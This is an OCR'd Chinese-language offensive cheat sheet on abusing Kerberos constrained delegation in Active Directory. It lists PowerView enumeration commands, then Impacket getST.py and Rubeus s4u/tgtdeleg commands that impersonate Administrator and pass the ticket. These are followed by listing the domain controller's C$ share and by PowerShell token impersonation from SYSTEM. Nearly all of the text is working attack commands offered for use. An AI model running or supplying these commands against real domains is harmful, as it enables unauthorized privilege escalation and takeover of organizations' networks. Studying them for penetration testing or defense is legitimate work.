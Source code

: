 	请求允许我们利用委托配置的 Kerberos 票证，我们可以再次使用 Impackets getST.py 脚本
	参数-impersonate 标志并指定我们希望模拟的用户
	探测
	>Get-DomainComputer -TrustedToAuth | select -exp dnshostname
	发现服务
	>Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
  ### 利用受约束的委托
  	Impacket
	>getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
	Rubeus
	>./Rubeus.exe tgtdeleg /nowrap # this ticket can be used with /ticket:...
	>./Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt
	>./Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
	>dir \\dc.domain.com\c$
  ### 在资源上模拟域用户
	要求：
	配置有约束委派的计算机上的 SYSTEM 级别权限
	PS> [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
	PS> $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
	PS> $idToImpersonate.Impersonate()
	PS> [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
	PS> ls \\dc01.offense.local\c$